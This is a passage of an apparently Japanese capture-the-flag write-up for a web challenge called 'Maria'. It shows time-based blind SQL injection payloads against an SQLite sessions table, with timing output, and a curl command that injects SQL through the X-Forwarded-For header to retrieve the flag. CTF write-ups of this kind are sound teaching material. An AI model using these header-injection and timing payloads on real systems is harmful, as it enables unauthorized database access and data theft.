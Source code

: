 ```

SELECT * FROM nxf8_sessions where ip_address = '1' or (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='nxf8_sessions') LIKE  '%ic%' escape '@' and 1 = randomblob(100000000);'<!DOCTYPE html>
        <p>Say hi to Maria! its the only person who can reveal the flag</p>
real	0m0.358s

SELECT * FROM nxf8_sessions where ip_address = '1' or (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='nxf8_sessions') LIKE  '%id%' escape '@' and 1 = randomblob(100000000);'<!DOCTYPE html>
        <p>Say hi to Maria! its the only person who can reveal the flag</p>
real	0m2.669s

SELECT * FROM nxf8_sessions where ip_address = '1' or (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='nxf8_sessions') LIKE  '%ie%' escape '@' and 1 = randomblob(100000000);'<!DOCTYPE html>
        <p>Say hi to Maria! its the only person who can reveal the flag</p>
real	0m0.347s

```

user_id id ip_address session_idのカラムを確認。
user_idでMariaを試すが、flagは表示されない。

さらに探索を進めると、user_idは1,3,5が存在する。

user_id = 1、user_id = 3、user_id = 5で試しても何も表示されず。ブラウザで2度目のアクセスをした際に、冒頭のSQL文が消えるのを思い出し、cookieを指定して2度目のアクセスを試すと、user_id = 5でflagが表示される。

```
$ curl -b cookie -c cookie -H "X-Forwarded-For: 1.1.1.ser_id = '5" http://35.222.174.178/maria/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <!-- The above 3 meta tags *must* come first in the head; any other head content must come *after* these tags -->
    <title>Welcome to our website</title>

    <!-- Bootstrap -->
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <!-- HTML5 shim and Respond.js for IE8 support of HTML5 elements and media queries -->
    <!-- WARNING: Respond.js doesn't work if you view the page via file:// -->
    <!--[if lt IE 9]>
      <script src="https://oss.maxcdn.com/html5shiv/3.7.3/html5shiv.min.js"></script>
      <script src="https://oss.maxcdn.com/respond/1.4.2/respond.min.js"></script>
    <![endif]-->
  </head>
  <body>
    <nav class="navbar navbar-inverse navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </button>
          <a class="navbar-brand" href="#">Maria Website</a>
        </div>
```